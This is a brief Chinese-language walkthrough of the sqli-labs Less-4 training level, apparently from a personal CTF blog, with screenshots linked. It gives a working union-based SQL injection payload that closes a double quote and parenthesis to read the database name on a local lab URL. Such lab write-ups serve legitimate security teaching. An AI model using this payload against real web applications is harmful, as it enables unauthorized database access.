 less4根据提示 double quotes 使用双引号”

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/2E951C2C9DE74E749FAA6593E98DF482clipboard.png)

根据报错提示还有括号（）



构造payload:

http://127.0.0.1/sql-labs/Less-4/?id=-1") union select 1,database(),3--+

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/805F7AFB34C541898AD0A1950D2408E2clipboard.png)

